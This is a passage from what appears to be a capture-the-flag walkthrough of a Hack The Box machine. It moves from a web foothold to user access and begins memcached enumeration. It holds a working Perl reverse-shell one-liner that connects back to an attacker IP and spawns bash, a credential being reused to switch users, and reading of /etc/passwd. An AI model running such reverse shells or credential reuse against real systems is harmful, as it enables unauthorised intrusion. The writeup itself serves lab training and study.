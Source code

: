 Let's give it a shot.

{% include image.html image_alt="7b15ad9b.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/7b15ad9b.png" %}

We can run a Perl one-liner reverse shell back to us.

```
perl -e 'use Socket;$i="10.10.16.17";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

Of course, we need to `urlencode` the one-liner to prevent any complications. We should get our reverse shell in our `netcat` listener.

{% include image.html image_alt="68b02e6d.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/68b02e6d.png" %}

It's customary to display the contents of `/etc/passwd`.

{% include image.html image_alt="199151be.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/199151be.png" %}

So `ash` is user with UID 1000. The file `user.txt` should be in the home directory.

{% include image.html image_alt="2af689ce.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/2af689ce.png" %}

### Getting `user.txt`

Notice that `ash` is not allowed to login via SSH even though **PasswordAuthentication** is allowed in `/etc/ssh/sshd_config`?

```
PasswordAuthentication yes

AllowUsers luffy
DenyUsers ash
```

Now that we have a shell, we can `su` to `ash` instead. But, what's the password? Recall earlier we have established the following credential (`ash:H@v3_fun`)? Maybe that's the password?

{% include image.html image_alt="62e99841.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/62e99841.png" %}

Indeed.

## Privilege Escalation

During enumeration of `ash`'s account, I noticed that `memcached` is running at `11211/tcp`.

### Memcached

I've written about `memcached` in [Dab](https://hackso.me/dab-htb-walkthrough/#memcached) before. With that, let's list down the slabs that's in store.
